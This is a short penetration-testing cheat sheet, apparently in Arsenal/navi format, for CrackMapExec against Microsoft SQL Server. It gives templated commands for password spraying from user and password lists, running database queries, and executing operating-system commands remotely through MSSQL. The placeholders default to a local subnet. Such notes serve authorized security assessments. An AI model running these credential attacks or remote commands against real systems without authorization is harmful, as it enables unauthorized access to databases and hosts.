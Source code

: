 # cme (MSSQL)

% cme, crackmapexec, Active Directory, nxc, netexec, mssql

## MSSQL password spray
#assessment/AD #attack_type/Bruteforce #port/1433 #protocol/mssql #access/Anonymous 

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## MSSQL execute query
#assessment/AD #attack_type/Privesc #port/1433 #protocol/mssql #access/Domain_user 

```bash
cme mssql <ip> -u <user> -p <password> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## MSSQL execute command
#assessment/AD #attack_type/Privesc #port/1433 #protocol/mssql #access/Domain_user 

```bash
cme mssql <ip> -u <user> -p <password> --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
